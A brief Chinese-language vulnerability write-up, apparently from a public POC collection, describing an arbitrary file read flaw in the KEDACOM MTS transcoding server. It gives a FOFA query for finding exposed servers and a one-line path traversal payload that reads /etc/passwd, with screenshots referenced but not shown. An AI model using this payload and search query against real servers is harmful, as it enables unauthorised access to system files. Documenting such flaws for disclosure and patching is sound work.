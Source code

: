 # 科达 MTS转码服务器 任意文件读取漏洞

## 漏洞描述

KEDACOM MTS转码服务器存在任意文件读取漏洞，攻击这通过漏洞可以读取服务器任意信息

## 漏洞影响

```
MTS转码服务器
```

## FOFA

```
app="MTS转码服务器"
```

## 漏洞复现

登录页面

![image-20220525145422524](./images/202205251454625.png)

验证POC

```
/../../../../../../../../etc/passwd
```

![](./images/202205251454380.png)